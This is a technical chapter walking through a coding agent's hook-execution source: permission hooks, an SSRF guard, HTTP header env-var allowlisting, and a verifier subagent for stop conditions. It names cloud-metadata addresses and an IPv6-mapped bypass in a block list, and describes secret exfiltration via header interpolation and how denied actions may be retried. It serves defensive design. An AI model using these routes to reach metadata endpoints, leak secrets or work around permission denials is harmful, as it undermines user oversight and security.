The `PermissionRequest` event at `src/utils/hooks/hooksConfigManager.ts:L162-L176` provides a different interaction point. It fires when the permission dialog is displayed to the user, allowing a hook to programmatically supply the decision. The hook's `hookSpecificOutput.decision` can carry an `allow` with optional `updatedInput` (modifying the tool call before execution) or a `deny`. The result processing at `src/utils/hooks.ts:L658-L673` maps this to a `permissionRequestResult` and updates `permissionBehavior` accordingly. This mechanism enables enterprise automation: a hook can approve low-risk operations (e.g., reading files in a known-safe directory) without user interaction, while still deferring high-risk operations to the interactive dialog.

The `PermissionDenied` event at `src/utils/hooks/hooksConfigManager.ts:L47-L55` fires after the auto-mode classifier or a permission dialog denies a tool call. Its `hookSpecificOutput` supports `retry: true` at `src/utils/hooks.ts:L655-L656`, which tells the model it may retry the denied action. This creates a feedback loop: a hook can observe that the classifier denied an action and signal the model to try a different approach, without the model having to infer from the denial message alone.

The deny-first evaluation principle (Chapter 32) extends to hook results. When multiple hooks fire for the same event, the `AggregatedHookResult` at `src/utils/hooks.ts:L359-L376` merges permission behaviors with deny taking precedence over allow. If one hook approves an action and another denies it, the result is denial. This conservative merge strategy prevents a permissive hook from overriding a restrictive one -- consistent with the principle that denial is always safer than permission in security-critical code paths.

## Where cc diverges from the published pattern

HER Section 5 Pattern 12 describes "shell commands at 25+ lifecycle points." cc's implementation diverges in several substantive ways:

**27 events, not "25+."** The actual event count is 27, including events not mentioned in HER's original enumeration: `PostToolUseFailure`, `PermissionDenied`, `StopFailure`, `TeammateIdle`, `Elicitation`, `ElicitationResult`, `ConfigChange`, `InstructionsLoaded`, and `FileChanged`. These additions reflect cc's maturation beyond the pattern's initial scope -- particularly the MCP integration events (Elicitation/ElicitationResult) and the file-watching subsystem (CwdChanged/FileChanged). The "25+" in HER was a lower-bound estimate; cc's 27 events exceed that threshold and cover lifecycle stages HER did not anticipate.

**Five hook types, not merely shell commands.** HER's description implies shell commands only. cc supports four persisted types (command, prompt, http, agent) plus an in-memory function type. The `prompt` type delegates to an LLM, the `http` type sends web requests with SSRF protection, and the `agent` type spawns a subagent verifier. These go well beyond "run a shell script at a lifecycle point."

Each type exists for a distinct trust-vs-capability tradeoff. The `command` type is the baseline: it runs arbitrary shell code in a child process with the same privileges as the cc process itself, making it the most powerful but also the most dangerous -- a malicious command hook can read any file the user can read, exfiltrate data via network, or modify any file the user can write. The `http` type restricts this surface: the hook cannot execute local code, it can only POST data to a URL, and the SSRF guard at `src/utils/hooks/ssrfGuard.ts` prevents connections to cloud metadata endpoints and private networks. The `prompt` type trades execution capability for semantic judgment: it cannot execute code or make network requests, but it can evaluate tool inputs against a policy using LLM reasoning. The `agent` type at `src/schemas/hooks.ts:L128-L163` is the most semantically powerful: it spawns a full subagent with its own tool access, enabling verification tasks like "run the test suite and check for failures." This power comes at a cost -- an agent hook can itself invoke tools (including Bash), creating a recursive trust boundary. The subagent runs with the parent session's permissions, so an agent hook inherits the same privilege level as the parent agent. The `function` type exists only in memory and is registered programmatically by cc's internal code (e.g., `sessionFileAccessHooks`, `attributionHooks`). It cannot be configured by users, which makes it the most constrained type from a supply-chain perspective: there is no vector for a malicious actor to inject a function hook via a settings file or plugin. The exclusion from `HookCommandSchema` at `src/schemas/hooks.ts:L174` is a security design decision, not merely a serialization limitation.

**Async-rewake is novel.** The `asyncRewake` flag on command hooks at `src/schemas/hooks.ts:L59-L64` is not described in HER. It enables a pattern where a long-running background hook can re-inject blocking errors into the model's context, waking the model from idle or interrupting an in-progress query. This creates a feedback loop from asynchronous hook results back into the agent's decision-making -- something the HER pattern does not account for.

**Structured JSON output replaces exit-code-only communication.** While exit codes remain the primary control flow, hooks can also emit structured JSON with fields like `decision`, `permissionDecision`, `updatedInput`, and `hookSpecificOutput`. This allows hooks to modify tool inputs before execution (`PreToolUse` + `updatedInput`), override permission decisions (`PermissionRequest` + `decision`), and inject additional context into the model's conversation. HER's pattern implies binary block/pass semantics; cc's hooks are programmable control planes.

**Cross-ref with HER Section 7.5.** HER Section 7.5 identifies hooks as one of six configuration surfaces and lists common patterns: auto-format after file edits, file protection via PreToolUse, premature-completion prevention via Stop hooks, and quality gates via TaskCompleted hooks. cc implements all four of these patterns and extends them with the `if` condition field for matcher-based filtering, the `once` flag for one-time setup hooks, and the `matcher` system that allows per-tool or per-notification-type hook targeting.

**Back-pressure integration.** HER Section 7.6 describes the back-pressure principle: "Swallow the output and only surface errors." cc's hook system implements this principle through the exit-code semantics. For most events, exit code 0 means success with no output shown to the model (stdout/stderr are suppressed). Only error conditions (exit code 2 or non-zero) surface information to the model or the user. This design prevents hook output from flooding the model's context window -- a critical concern for long-running agents where every additional token in context increases cost and reduces available working memory.

**The `PreCompact` event is unique.** The `PreCompact` event at `src/utils/hooks/hooksConfigManager.ts:L133-L144` is the only event where exit code 0 causes stdout to be appended as custom compact instructions. This creates a feedback loop: a hook can inject context that influences how compaction summarizes the conversation, effectively allowing the harness to steer what the model remembers after compaction. This is a form of observation masking (HER Section 8.1) where the hook acts as a selective filter on what information survives compaction. The exit code 2 semantics for PreCompact block the compaction entirely, which is a last-resort mechanism when the hook determines that compaction would destroy critical context.

## Developer takeaways for building a long-running agent

1. **Treat hooks as a control plane, not merely lifecycle callbacks.** Hooks can modify inputs, override permissions, inject context, and wake the model from idle. Design your hook system to support structured output, not merely exit codes.

2. **Invest in matcher semantics early.** The difference between a PreToolUse hook that fires for every tool call and one that fires only for `Bash(git *)` is the difference between a blunt instrument and a surgical control. Define what each event's matcher matches against before implementing the runtime.

3. **Gate on trust.** Hooks execute arbitrary code from settings files. If your agent has a workspace-trust concept, enforce it for all hooks. cc's historical vulnerabilities (SessionEnd firing before trust, SubagentStop in untrusted workspaces) demonstrate that hook timing is unpredictable.
# Hook Execution: Command, Prompt, HTTP, Agent, Function

## Overview

Chapter 36 introduced the hook schema and lifecycle events that define *when* hooks fire. This chapter examines *how* each of the five hook types executes once triggered. The execution path differs dramatically: command hooks spawn a subprocess and parse its exit code; prompt hooks invoke a lightweight LLM call with structured JSON output; HTTP hooks POST JSON to a remote endpoint with SSRF protection; agent hooks launch a full multi-turn subagent query; and function hooks run an in-process TypeScript callback. Despite these differences, all five paths converge on the same `HookResult` type and the same three-outcome model: success, blocking, or non-blocking error.

The hook execution pipeline is the runtime arm of HER Pattern 12 (Deterministic Lifecycle Hooks). Where the schema defines the contract, the exec modules enforce it. Each execution path must handle timeouts, abort signals, and error isolation so that a misbehaving hook cannot crash the main agent loop. This is a critical invariant for a long-running agent: hooks are user-configured extensions, and the harness must guarantee that a broken or malicious hook cannot compromise the agent's core loop.

The five execution paths also represent a progression in complexity and capability. Command hooks are the simplest and most deterministic -- they spawn a process and parse its exit code. Prompt hooks introduce nondeterminism by delegating the decision to an LLM, but they constrain the output via structured JSON schemas. HTTP hooks add network I/O and the full spectrum of SSRF, header injection, and secrets exfiltration risks. Agent hooks are the most powerful: they give the hook a full tool-using agent that can inspect the codebase, read files, and verify complex conditions. Function hooks trade persistence for speed: they run in-process TypeScript callbacks that can access shared state but cannot survive a restart.

## Data structures and contracts

The central contract is the `HookResult` type returned by every execution function. It captures the three possible outcomes and the data each outcome carries. The `outcome` field is the discriminating key: `success` means the hook passed, `blocking` means the hook explicitly denied the action, `non_blocking_error` means the hook failed but the action should proceed, and `cancelled` means the hook was aborted (typically due to timeout or user cancellation).

```typescript
// src/utils/hooks.ts:L338 — HookResult interface
export interface HookResult {
  message?: HookResultMessage
  systemMessage?: string
  blockingError?: HookBlockingError
  outcome: 'success' | 'blocking' | 'non_blocking_error' | 'cancelled'
  preventContinuation?: boolean
  stopReason?: string
  permissionBehavior?: 'ask' | 'deny' | 'allow' | 'passthrough'
  hookPermissionDecisionReason?: string
  additionalContext?: string
  initialUserMessage?: string
  updatedInput?: Record<string, unknown>
  updatedMCPToolOutput?: unknown
  permissionRequestResult?: PermissionRequestResult
  elicitationResponse?: ElicitationResponse
  watchPaths?: string[]
  hook: HookCommand | HookCallback | FunctionHook
}

// src/utils/hooks.ts:L359 — AggregatedHookResult type
export type AggregatedHookResult = {
  message?: HookResultMessage
  blockingError?: HookBlockingError
  preventContinuation?: boolean
  stopReason?: string
  hookPermissionDecisionReason?: string
  hookSource?: string
  permissionBehavior?: PermissionResult['behavior']
  additionalContexts?: string[]
  initialUserMessage?: string
  updatedInput?: Record<string, unknown>
  // ... additional fields for combining results from multiple hooks
}
```

The `blockingError` field is populated only when `outcome === 'blocking'`. It carries the human-readable reason and the command that triggered the block. The `preventContinuation` flag is set to `true` when the hook determines that the agent must stop the current action entirely -- for example, a `PreToolUse` prompt hook that detects a policy violation. The `stopReason` field provides additional context for why the agent was stopped.

The `FunctionHook` type extends the contract for in-process callbacks. It is session-scoped only and cannot be persisted to `settings.json`, which makes it fundamentally different from command, prompt, HTTP, and agent hooks that are configured declaratively and survive restarts.

```typescript
// src/utils/hooks/sessionHooks.ts:L15-L31 — Function hook type
export type FunctionHookCallback = (
  messages: Message[],
  signal?: AbortSignal,
) => boolean | Promise<boolean>

export type FunctionHook = {
  type: 'function'
  id?: string
  timeout?: number
  callback: FunctionHookCallback
  errorMessage: string
  statusMessage?: string
}
```

The `FunctionHookCallback` signature is deliberately simple: it receives the current message array and an optional abort signal, and returns a boolean. This minimal interface makes function hooks easy to implement but limits their capability -- they cannot produce attachment messages or structured error reports like the other hook types can. The `errorMessage` and `statusMessage` fields on `FunctionHook` provide static text for UI display when the callback returns `false`.

The `SessionHooksState` uses a `Map` rather than a `Record` for a critical performance reason under high concurrency. This choice was made after a real-world performance problem was identified with parallel schema-mode agents.

```typescript
// src/utils/hooks/sessionHooks.ts:L49-L62 — Map-based session hooks state
export type SessionHooksState = Map<string, SessionStore>
// Map (not Record) so .set/.delete don't change the container's identity.
// Mutator functions mutate the Map and return prev unchanged, letting
// store.ts's Object.is(next, prev) check short-circuit and skip listener
// notification. Session hooks are ephemeral per-agent runtime callbacks,
// never reactively read (only getAppState() snapshots in the query loop).
// Same pattern as agentControllers on LocalWorkflowTaskState.
//
// This matters under high-concurrency workflows: parallel() with N
// schema-mode agents fires N addFunctionHook calls in one synchronous
// tick. With a Record + spread, each call cost O(N) to copy the growing
// map (O(N^2) total) plus fired all ~30 store listeners. With Map: .set()
// is O(1), return prev means zero listener fires.
```

The `HookExecutionEvent` type powers the real-time event system that broadcasts hook progress to SDK consumers and the UI. Three event types cover the full lifecycle: `started` (when a hook begins execution), `progress` (periodic updates during long-running hooks), and `response` (the final result).

```typescript
// src/utils/hooks/hookEvents.ts:L22-L55 — Event types
export type HookStartedEvent = {
  type: 'started'
  hookId: string
  hookName: string
  hookEvent: string
}

export type HookProgressEvent = {
  type: 'progress'
  hookId: string
  hookName: string
  hookEvent: string
  stdout: string
  stderr: string
  output: string
}

export type HookResponseEvent = {
  type: 'response'
  hookId: string
  hookName: string
  hookEvent: string
  output: string
  stdout: string
  stderr: string
  exitCode?: number
  outcome: 'success' | 'error' | 'cancelled'
}
```

The event system uses a buffering strategy: when no handler is registered, events accumulate in a `pendingEvents` array (capped at `MAX_PENDING_EVENTS = 100`, oldest discarded on overflow). When a handler registers later, the buffer is drained. This ensures that events emitted before the UI or SDK is ready are not lost.

## Control flow

### Command hook execution

Command hooks are the original and simplest hook type. The main `hooks.ts` module spawns a child process with the hook's shell command, pipes stdin (the JSON-serialized hook input), and reads stdout/stderr. The process exit code maps directly to the three-outcome model: exit 0 is success, exit 2 is blocking, and any other non-zero exit is a non-blocking error. The `TOOL_HOOK_EXECUTION_TIMEOUT_MS` constant (10 minutes) guards against hung commands, enforced via `createCombinedAbortSignal` which combines the parent abort signal with a timeout signal.

The command hook path also supports async hooks via the `AsyncHookJSONOutput` schema. When a command hook returns JSON on stdout with `{"decision": "approve", "reason": "..."}` and an `async: true` flag, the hook result is processed as an async response. Async hooks are used for long-running background checks (like running a test suite) that should not block the agent's turn.

The `executeInBackground` function handles the async dispatch: it spawns the subprocess, reads stdout incrementally, and re-awakens the agent when the hook completes. The `registerPendingAsyncHook` function in `AsyncHookRegistry.ts` tracks in-flight async hooks so that the agent knows to wait for their results before finalizing a turn.

### Async hook registry

The async hook registry in `src/utils/hooks/AsyncHookRegistry.ts` manages the lifecycle of in-flight async command hooks. Unlike synchronous command hooks that block the agent's turn until the subprocess exits, async hooks return an interim `{"decision": "approve", "async": true}` response and continue running in the background. The registry tracks these hooks so that the agent can check for completed results between turns.

The registry is a module-scoped `Map<string, PendingAsyncHook>` keyed by `processId`. Each entry records the hook's identity (`hookId`, `hookName`, `hookEvent`), timing (`startTime`, `timeout`), the `ShellCommand` object for I/O access, and a `responseAttachmentSent` flag that prevents duplicate delivery of results.

```typescript
// src/utils/hooks/AsyncHookRegistry.ts:L12-L25 — PendingAsyncHook type
export type PendingAsyncHook = {
  processId: string
  hookId: string
  hookName: string
  hookEvent: HookEvent | 'StatusLine' | 'FileSuggestion'
  toolName?: string
  pluginId?: string
  startTime: number
  timeout: number
  command: string
  responseAttachmentSent: boolean
  shellCommand?: ShellCommand
  stopProgressInterval: () => void
}
```

The `registerPendingAsyncHook` function is called when a command hook produces an async response. It creates a `PendingAsyncHook` entry with a default timeout of 15 seconds (overridable via `asyncTimeout` in the hook's JSON output), starts a progress interval for event broadcasting, and inserts the entry into the Map. The `stopProgressInterval` callback is stored on the entry so it can be cleaned up when the hook completes or is cancelled.

The `checkForAsyncHookResponses` function is the polling mechanism that the query loop calls between turns. It snapshots all pending hooks, then uses `Promise.allSettled` to check each one concurrently. For each hook, it inspects the `ShellCommand.status`: if `completed`, it parses stdout for the first JSON line that does not contain an `async` field (the final sync response), marks `responseAttachmentSent`, emits a `HookResponseEvent` via `finalizeHook`, and returns the parsed result. If `killed`, it cleans up and removes the entry. If still running, it skips. The `allSettled` pattern isolates failures: one throwing callback does not orphan side effects (like `responseAttachmentSent` or `finalizeHook`) from other hooks in the same batch.

A subtle but important interaction: when a `SessionStart` async hook completes, the registry calls `invalidateSessionEnvCache()`. This is because `SessionStart` hooks often modify the environment (e.g., setting up PATH entries or activating virtual environments), and the session environment cache must be refreshed so that subsequent tool calls see the updated state. The `sessionStartCompleted` flag is tracked across the `allSettled` results to trigger this invalidation once per batch.

The `finalizePendingAsyncHooks` function is the shutdown path. Called when the session ends, it iterates all remaining hooks: completed ones are finalized normally, while still-running ones are killed and finalized with outcome `cancelled`. The registry is then cleared. The `removeDeliveredAsyncHooks` function removes entries that have already been marked as delivered (`responseAttachmentSent === true`), used by the dispatch layer after results have been processed into hook outcomes.

### Prompt hook execution

Prompt hooks invoke a lightweight LLM call rather than a subprocess. The `execPromptHook` function in `src/utils/hooks/execPromptHook.ts` constructs a system prompt that instructs the model to return JSON matching `{ok: boolean, reason?: string}`. It uses `queryModelWithoutStreaming` with a small fast model (typically Haiku) and disables thinking to minimize latency and cost.

The prompt template is constructed via `addArgumentsToPrompt`, which replaces `$ARGUMENTS` placeholders in the hook's `prompt` field with the JSON-serialized hook input. This allows prompt hooks to reference the specific tool name, file path, or other context from the triggering event.

```typescript
// src/utils/hooks/execPromptHook.ts:L55-L100 — Model query with structured output
const hookTimeoutMs = hook.timeout ? hook.timeout * 1000 : 30000
const { signal: combinedSignal, cleanup: cleanupSignal } =
  createCombinedAbortSignal(signal, { timeoutMs: hookTimeoutMs })

const response = await queryModelWithoutStreaming({
  messages: messagesToQuery,
  systemPrompt: asSystemPrompt([
    `You are evaluating a hook in Claude Code.

Your response must be a JSON object matching one of the following schemas:
1. If the condition is met, return: {"ok": true}
2. If the condition is not met, return: {"ok": false, "reason": "Reason for why it is not met"}`,
  ]),
  thinkingConfig: { type: 'disabled' as const },
  tools: toolUseContext.options.tools,
  signal: combinedSignal,
  options: {
    async getToolPermissionContext() {
      const appState = toolUseContext.getAppState()
      return appState.toolPermissionContext
    },
    model: hook.model ?? getSmallFastModel(),
    toolChoice: undefined,
    isNonInteractiveSession: true,
    hasAppendSystemPrompt: false,
    agents: [],
    querySource: 'hook_prompt',
    mcpTools: [],
    agentId: toolUseContext.agentId,
    outputFormat: {
      type: 'json_schema',
      schema: {
        type: 'object',
        properties: { ok: { type: 'boolean' }, reason: { type: 'string' } },
        required: ['ok'],
        additionalProperties: false,
      },
    },
  },
})
```

The `outputFormat` field uses the Anthropic API's `json_schema` mode to force the model's output to conform to the expected schema. This is more reliable than prompting for JSON and hoping the model complies -- the API enforces the schema at the token level. The `additionalProperties: false` constraint prevents the model from adding unexpected fields.

The response is validated against `hookResponseSchema()` via Zod. If the model returns `{ok: false}`, the hook outcome is `blocking` with `preventContinuation: true`. If the response fails JSON parsing or schema validation, the outcome is `non_blocking_error` -- the agent continues but the user sees a diagnostic attachment with the raw response and the parse error. This is a deliberate design choice: a misconfigured prompt hook (e.g., one that produces free-text output instead of JSON) should not block the agent from working.

The `createCombinedAbortSignal` function merges two abort sources: the parent signal (which fires when the user cancels or the session ends) and a timeout signal (which fires after `hookTimeoutMs`). The timeout defaults to 30 seconds but can be overridden via the hook's `timeout` field in settings. The `cleanup` function returned by `createCombinedAbortSignal` must be called in both the success and error paths to prevent memory leaks from dangling event listeners.

```mermaid
sequenceDiagram
    participant QL as Query Loop
    participant EPH as execPromptHook
    participant Model as Haiku Model
    QL->>EPH: invoke(hook, jsonInput, signal)
    EPH->>EPH: addArgumentsToPrompt(hook.prompt, jsonInput)
    EPH->>EPH: createCombinedAbortSignal(parent, timeout)
    EPH->>Model: queryModelWithoutStreaming(systemPrompt, messages)
    Model-->>EPH: text response
    EPH->>EPH: safeParseJSON + hookResponseSchema().safeParse
    alt ok: true
        EPH-->>QL: {outcome: "success"}
    else ok: false
        EPH-->>QL: {outcome: "blocking", preventContinuation: true}
    else parse error
        EPH-->>QL: {outcome: "non_blocking_error"}
    end
```

### HTTP hook execution

HTTP hooks POST the hook input JSON to a configured URL. The `execHttpHook` function in `src/utils/hooks/execHttpHook.ts` implements three layers of defense: URL allowlisting, SSRF protection, and environment variable interpolation controls.

The URL allowlist follows the same pattern as the MCP server allowlist: `undefined` means no restriction, an empty array blocks all URLs, and a non-empty array requires a pattern match. The `urlMatchesPattern` function converts glob-style patterns (where `*` matches any characters) into regular expressions.

```typescript
// src/utils/hooks/execHttpHook.ts:L123-L145 — URL allowlist check and SSRF guard
export async function execHttpHook(
  hook: HttpHook, _hookEvent: HookEvent, jsonInput: string, signal?: AbortSignal,
): Promise<{ok: boolean; statusCode?: number; body: string; error?: string; aborted?: boolean}> {
  const policy = getHttpHookPolicy()
  if (policy.allowedUrls !== undefined) {
    const matched = policy.allowedUrls.some(p => urlMatchesPattern(hook.url, p))
    if (!matched) {
      return { ok: false, body: '', error: `HTTP hook blocked: ${hook.url} does not match any pattern in allowedHttpHookUrls` }
    }
  }
  // ... axios.post with lookup: ssrfGuardedLookup
```

The SSRF guard in `src/utils/hooks/ssrfGuard.ts` resolves DNS before connecting and rejects private/link-local addresses. Critically, loopback (127.0.0.0/8, ::1) is intentionally allowed because local dev policy servers are a primary HTTP hook use case. The guard also handles IPv4-mapped IPv6 addresses to prevent bypass via `::ffff:169.254.169.254`.

```typescript
// src/utils/hooks/ssrfGuard.ts:L42-L86 — Address blocking logic
export function isBlockedAddress(address: string): boolean {
  const v = isIP(address)
  if (v === 4) return isBlockedV4(address)
  if (v === 6) return isBlockedV6(address)
  return false
}

function isBlockedV4(address: string): boolean {
  const parts = address.split('.').map(Number)
  const [a, b] = parts
  if (a === 127) return false  // loopback explicitly allowed
  if (a === 0) return true     // 0.0.0.0/8
  if (a === 10) return true    // 10.0.0.0/8 private
  if (a === 169 && b === 254) return true  // link-local, cloud metadata
  if (a === 172 && b >= 16 && b <= 31) return true  // 172.16.0.0/12
  if (a === 100 && b >= 64 && b <= 127) return true  // CGNAT / Alibaba metadata
  if (a === 192 && b === 168) return true  // 192.168.0.0/16
  return false
}
```

The blocked IPv4 ranges deserve explanation. The `0.0.0.0/8` range is the "this network" address. The `10.0.0.0/8`, `172.16.0.0/12`, and `192.168.0.0/16` ranges are RFC 1918 private addresses commonly used in corporate networks. The `169.254.0.0/16` range is link-local, used by cloud metadata endpoints (AWS, GCP, Azure all expose metadata at `169.254.169.254`). The `100.64.0.0/10` range is shared address space (RFC 6598, CGNAT), which some cloud providers use for metadata endpoints -- notably Alibaba Cloud at `100.100.100.200`.

The `ssrfGuardedLookup` function integrates with axios's `lookup` option. When axios resolves a hostname, it calls this function instead of the default `dns.lookup`. The function resolves DNS first, validates the resulting IP addresses, and then returns them to axios for connection. This eliminates the TOCTOU window between DNS resolution and connection that exists in naive SSRF guards that validate the hostname but not the resolved IP.

Environment variable interpolation in HTTP hook headers is restricted to variables explicitly listed in `allowedEnvVars`. This prevents project-configured hooks from exfiltrating secrets via `$AWS_SECRET_ACCESS_KEY` in a header value. The `interpolateEnvVars` function replaces `$VAR_NAME` and `${VAR_NAME}` patterns with values from `process.env`, but only for variables present in the allowlist. Variables not in the allowlist are replaced with empty strings, and a warning is logged. The `sanitizeHeaderValue` function strips CR/LF/NUL bytes to prevent CRLF header injection via malicious environment variable values.

The timeout for HTTP hooks defaults to `DEFAULT_HTTP_HOOK_TIMEOUT_MS` (10 minutes), matching the tool hook timeout. This generous default accommodates slow policy servers that may queue requests. The hook can specify a custom timeout in seconds via the `timeout` field.

```mermaid
sequenceDiagram
    participant QL as Query Loop
    participant EHH as execHttpHook
    participant Policy as getHttpHookPolicy
    participant DNS as ssrfGuardedLookup
    participant Remote as Remote Server
    QL->>EHH: invoke(hook, jsonInput, signal)
    EHH->>Policy: getHttpHookPolicy()
    Policy-->>EHH: {allowedUrls, allowedEnvVars}
    EHH->>EHH: urlMatchesPattern check
    EHH->>EHH: interpolateEnvVars(headers, allowedEnvVars)
    EHH->>EHH: sanitizeHeaderValue(interpolated)
    EHH->>DNS: ssrfGuardedLookup(hostname)
    DNS->>DNS: dns.lookup then isBlockedAddress?
    alt blocked
        DNS-->>EHH: ERR_HTTP_HOOK_BLOCKED_ADDRESS
        EHH-->>QL: {ok: false, error: "SSRF blocked"}
    else allowed
        DNS-->>EHH: resolved address
        EHH->>Remote: POST jsonInput (via axios)
        Remote-->>EHH: {status, body}
        EHH-->>QL: {ok, statusCode, body}
    end
```

### Agent hook execution

Agent hooks are the most complex execution path. The `execAgentHook` function in `src/utils/hooks/execAgentHook.ts` launches a full multi-turn LLM query using the `query()` async generator. The agent can use tools (filtered to exclude `ALL_AGENT_DISALLOWED_TOOLS` and duplicate `StructuredOutputTool` instances) to inspect the codebase and verify a condition. It must return its result via a `StructuredOutputTool` call.

The agent hook is primarily used for stop hooks -- verification that the agent has actually completed its assigned task before the session ends. This is a critical quality gate in long-running autonomous sessions where the model might claim to be done prematurely.

```typescript
// src/utils/hooks/execAgentHook.ts:L87-L121 — Agent setup
const structuredOutputTool = createStructuredOutputTool()
const filteredTools = toolUseContext.options.tools.filter(
  tool => !toolMatchesName(tool, SYNTHETIC_OUTPUT_TOOL_NAME),
)
const tools: Tool[] = [
  ...filteredTools.filter(
    tool => !ALL_AGENT_DISALLOWED_TOOLS.has(tool.name),
  ),
  structuredOutputTool,
]

const systemPrompt = asSystemPrompt([
  `You are verifying a stop condition in Claude Code. Your task is to verify that the agent completed the given plan. The conversation transcript is available at: ${transcriptPath}
You can read this file to analyze the conversation history if needed.

Use the available tools to inspect the codebase and verify the condition.
Use as few steps as possible - be efficient and direct.

When done, return your result using the ${SYNTHETIC_OUTPUT_TOOL_NAME} tool with:
- ok: true if the condition is met
- ok: false with reason if the condition is not met`,
])

const model = hook.model ?? getSmallFastModel()
const MAX_AGENT_TURNS = 50

// Create unique agentId for this hook agent
const hookAgentId = asAgentId(`hook-agent-${randomUUID()}`)

// Create a modified toolUseContext for the agent
const agentToolUseContext: ToolUseContext = {
  ...toolUseContext,
  agentId: hookAgentId,
  abortController: hookAbortController,
  options: {
```

The tool filtering serves two purposes. First, `ALL_AGENT_DISALLOWED_TOOLS` excludes tools that would allow the verification agent to spawn subagents, enter plan mode, or otherwise escalate its privileges. A stop-hook agent should verify, not act. Second, removing existing `StructuredOutputTool` instances prevents conflicts with the one created specifically for this hook.

The agent runs inside a `for await` loop over `query()`. Each assistant turn increments a counter; if it reaches `MAX_AGENT_TURNS` (50), the agent is aborted and the hook returns `cancelled`. A `registerStructuredOutputEnforcement` session hook ensures the agent calls the structured output tool rather than free-texting a response. This enforcement hook is registered before the query loop starts and cleaned up afterward via `clearSessionHooks`.

The agent hook creates its own `AbortController` and combines it with the parent signal via `createCombinedAbortSignal`. The combined signal is used for the entire multi-turn query, with a default timeout of 60 seconds (twice the prompt hook timeout). The agent's `toolUseContext` is modified to run in `dontAsk` permission mode with an additional session rule allowing the agent to read the transcript file without prompting.

The analytics events `tengu_agent_stop_hook_success`, `tengu_agent_stop_hook_max_turns`, and `tengu_agent_stop_hook_error` track the agent hook's performance and failure modes. The `durationMs` and `turnCount` fields provide observability into how long verification takes and whether agents are hitting the turn limit.

### Function hook execution

Function hooks are the simplest path: an in-process TypeScript callback. The `FunctionHookCallback` type takes a `messages` array and an optional `AbortSignal`, returning a boolean synchronously or via Promise. True means the condition passes; false means block. Function hooks are registered via `addFunctionHook` in `sessionHooks.ts` and live only in memory -- they cannot be persisted to `settings.json`.

The primary use case for function hooks is programmatic enforcement of conditions that would be difficult or unreliable to express as shell commands or LLM prompts. For example, `registerStructuredOutputEnforcement` (used by agent hooks) registers a `PostToolUse` function hook that checks whether the agent has called the `StructuredOutputTool` and, if not, blocks the response and prompts the agent to use it.

The session hook registry uses a `Map<string, SessionStore>` keyed by session ID. This Map-based design avoids O(N^2) listener notification under high concurrency: when `N` parallel schema-mode agents each call `addFunctionHook` in one synchronous tick, `Map.set()` is O(1) and returns the previous state object unchanged, causing `Object.is(next, prev)` checks to short-circuit. The comment in `sessionHooks.ts` documents the performance analysis that led to this choice: with a `Record` + spread approach, each mutation cost O(N) to copy the growing map (O(N^2) total across N agents) plus fired all approximately 30 store listeners.

Function hooks can be removed by ID via `removeFunctionHook`, which filters the hook array within each matcher and removes empty matchers. The `clearSessionHooks` function deletes the entire session entry from the Map.

### Skill hook registration

The `registerSkillHooks` function in `src/utils/hooks/registerSkillHooks.ts` bridges skill frontmatter and the session hook registry. When a skill with hooks in its frontmatter is invoked, `registerSkillHooks` iterates over all hook events and matchers, calling `addSessionHook` for each. Skills with `once: true` hooks get an `onHookSuccess` callback that removes the hook after its first successful execution.

```typescript
// src/utils/hooks/registerSkillHooks.ts:L20-L63 — Skill hook registration
export function registerSkillHooks(
  setAppState, sessionId, hooks, skillName, skillRoot?,
): void {
  let registeredCount = 0
  for (const eventName of HOOK_EVENTS) {
    const matchers = hooks[eventName]
    if (!matchers) continue
    for (const matcher of matchers) {
      for (const hook of matcher.hooks) {
        const onHookSuccess = hook.once
          ? () => { removeSessionHook(setAppState, sessionId, eventName, hook) }
          : undefined
        addSessionHook(setAppState, sessionId, eventName, matcher.matcher || '', hook, onHookSuccess, skillRoot)
        registeredCount++
      }
    }
  }
}
```

The `skillRoot` parameter is passed through to `addSessionHook` so that the hook's `CLAUDE_PLUGIN_ROOT` environment variable can be set to the skill's base directory. This allows skill hooks to reference scripts and data files relative to the skill's location.

### Hook event broadcasting

The `hookEvents.ts` module provides a lightweight pub/sub system for hook execution events. Handlers register via `registerHookEventHandler` and receive `HookStartedEvent`, `HookProgressEvent`, and `HookResponseEvent` objects. Events are buffered up to `MAX_PENDING_EVENTS` (100) when no handler is registered yet, then drained when one registers.

The `shouldEmit` function gates which events are broadcast. `SessionStart` and `Setup` are always emitted (listed in `ALWAYS_EMITTED_HOOK_EVENTS`). All other events require `allHookEventsEnabled`, which is set by the SDK `includeHookEvents` option or when running in `CLAUDE_CODE_REMOTE` mode. This gating prevents high-frequency hook events from flooding the event system when no consumer is interested.

The `startHookProgressInterval` function provides periodic progress updates for long-running hooks. It polls the hook's output at a configurable interval (default 1 second) and emits a `HookProgressEvent` only when the output has changed. The interval is created with `setInterval` and its `unref()` method is called to prevent it from keeping the Node.js event loop alive. This is a significant design consideration for daemon-mode agents: without `unref()`, a long-running hook with a progress interval would prevent the process from exiting even after all work is complete.

The event system's design reflects a lesson learned from earlier versions of the hook infrastructure. Initially, hook events were emitted directly from the subprocess handling code, which meant that events fired before any consumer could register a handler. The buffering strategy with `pendingEvents` was introduced to solve this bootstrap problem. The cap of 100 pending events prevents unbounded memory growth if a consumer never registers (e.g., when running in a non-interactive mode where no UI is present).

The relationship between the event system and the async hook registry is worth noting. When `registerPendingAsyncHook` is called, it invokes `startHookProgressInterval` to begin emitting progress events for the background hook. When the hook completes and `finalizeHook` is called, it emits a `HookResponseEvent` as the final event for that hook's lifecycle. This means the event system serves as the unified notification channel for both synchronous and asynchronous hook results, allowing SDK consumers to observe hook progress without needing to know whether the hook is sync or async.

## Edge cases and failure modes

**Prompt hook JSON validation failure.** If the model returns malformed JSON or a response that does not match `hookResponseSchema`, the hook returns `non_blocking_error`. The agent continues, but a diagnostic attachment is created with the raw response and the parse error details. This is a deliberate design choice: a broken hook should not block the agent from working. The diagnostic attachment includes the hook name, the event that triggered it, the stderr field set to "JSON validation failed" or "Schema validation failed", and the stdout field set to the raw response text.

**HTTP hook SSRF bypass via IPv6-mapped IPv4.** The `extractMappedIPv4` function in `ssrfGuard.ts` handles the case where an attacker specifies `::ffff:169.254.169.254` to reach cloud metadata. The function expands the IPv6 address into 8 hextets, checks the IPv4-mapped prefix (80 zero bits + 0xffff), and delegates to the IPv4 blocker. Without this check, hex-form mapped addresses would bypass the v4 guard entirely. The `expandIPv6Groups` helper handles all valid IPv6 representations -- compressed (`::`), expanded, and trailing dotted-decimal -- so that the prefix check works regardless of how the address is formatted.

